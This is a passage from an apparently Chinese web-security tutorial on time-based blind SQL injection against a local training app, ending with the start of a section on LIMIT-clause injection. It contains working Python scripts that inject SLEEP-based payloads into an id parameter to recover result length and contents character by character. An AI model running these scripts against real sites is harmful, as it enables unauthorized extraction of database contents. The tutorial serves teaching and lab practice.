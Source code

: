 ```python
def bool_check(resp):
    if resp.status_code != 200:
        return False
    if resp.elapsed.seconds > 0:
        return True
    return False
```

然后就是结果长度判断：

```python
def get_sqli_res_len(expr):
    length = 0
    sess = req.session()
    while True:
        sqli_expr = "IF(LENGTH((%s))=%d,SLEEP(1),1)" % (expr, length)
        url = "http://phptrain/index.php/Home/Index/SQL_three?id=1' and (%s) --+" % (sqli_expr)
        resp = sess.get(url)
        if bool_check(resp):
            break
        length += 1
    return length
```

最后是猜解结果：

```python
def get_sqli_res(expr, length):
    res = ""
    sess = req.session()
    for i in range(length):
        for ascii in range(128):
            sqli_expr = "IF(ASCII(SUBSTR((%s),%d,1))=%d,SLEEP(1),1)" % (expr, i + 1, ascii)
            url = "http://phptrain/index.php/Home/Index/SQL_three?id=1' and (%s) --+" % (sqli_expr)
            resp = sess.get(url)
            if bool_check(resp):
                res += chr(ascii)
                break

    return res
```

采用比较暴力的遍历猜解，这种看个人发挥了。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-20df732ef4ace30d83ca4632325dd72a6012505f.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-20df732ef4ace30d83ca4632325dd72a6012505f.png)  
最后提一句，如果我们采用的是=判断，好处是只有猜中时才会延迟，效率比较高，但是如果语句出错，在判断长度时就会由于达不到条件而进入死循环。  
并且时间盲注对网络性能有一定依赖，所以我们需要根据实际情况做出一些调整。

limit注入
-------

先介绍用法  
`limit x,y`：从查询结果的第x条记录开始取y条记录。  
常出现的场景就是分页功能，一般都有第x页，展示y条数据。参数也一般都是以`page=x&size=y`进行命名。  
这时如果对参数过滤不严甚至没有过滤就会导致limit注入。
